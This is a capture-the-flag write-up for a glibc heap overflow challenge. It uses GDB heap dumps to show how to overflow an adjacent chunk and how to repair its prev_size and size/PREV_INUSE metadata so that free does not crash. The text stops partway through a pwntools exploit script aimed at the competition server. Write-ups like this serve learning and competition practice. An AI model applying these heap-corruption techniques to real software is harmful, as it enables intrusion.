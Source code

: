 ### Exploitation

The first thing we need to do is overflowing the second chunk. Due to the calls to `setvbuf`, we don't have to worry about functions allocating stuff on the heap. Therefore, we can expect the two chunks to be adjacent. In particular, we will have the first chunk right above the second one. This is how the heap looks from GDB:

```
0x174f290:	0x0000000000000000	0x0000000000000021 <-- first chunk header
0x174f2a0:	0x0000000000000000	0x0000000000000000 <-- first chunk data
0x174f2b0:	0x0000000000000000	0x0000000000000031 <-- second chunk header
0x174f2c0:	0xc8bd3bffa466d6c4	0x83f759c86a80ecc0 <-- second chunk data
0x174f2d0:	0x3e743ca04adf54f9	0x764841e3e9fb4889
0x174f2e0:	0x0000000000000000	0x0000000000020d21 <-- wilderness/top chunk
```

To pass the check on the second chunk content, we can simply overwrite the second chunk content to be all As. The heap will now look similar to this:

```
0x174f290:	0x0000000000000000	0x0000000000000021 <-- first chunk header
0x174f2a0:	0x6161616261616161	0x6161616461616163 <-- first chunk data
0x174f2b0:	0x6161616661616165	0x6161616861616167 <-- second chunk header
0x174f2c0:	0x4141414141414141	0x4141414141414141 <-- second chunk data
0x174f2d0:	0x4141414141414141	0x4141414141414141
0x174f2e0:	0x000000000000000a	0x0000000000020d21 <-- wilderness/top chunk
```

Note that we have overwritten also metadata of the two chunks, and that the program calls `free`. If `free` is called on such a chunk, it will either cause a SIGSEGV or fail a sanity/security check.

We now need to fix the metadata. What was there in the first place?
The first chunk header is untouched, as we read starting from its data.
What is completely changed is the second chunk header. Before the overwrite, it was:

```
0x174f2b0:	0x0000000000000000	0x0000000000000031
```

The first 8 bytes are the `prev_size`, which is a field that is zero when the previous chunk is allocated (and in some other cases depending on the type of chunk). The second 8 bytes are the size of the chunk, as well as some metadata. In particular, each chunk in GLIBC is aligned to 0x8 bytes, meaning that the lowest 3 bits of the size can be used for other purposes. In particular, the lowest bit is used to indicate whether the previous chunk is allocated or not.

Now that we have understood a little how the heap in GLIBC works, we can go on and fix the metadata so that free doesn't crash. How? Well, just write back the metadata that were there (if possible), that is, write some random padding to get to the second chunk metadata and first write zeros and then the size of the chunk with the `PREV_INUSE` bit set.

The final exploit that implements this attack is the following:

```py
#!/usr/bin/env python3

from pwn import *

HOST = "challs.actf.co"
PORT = 31310

exe = ELF("./leek_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]

gdbscript = """
```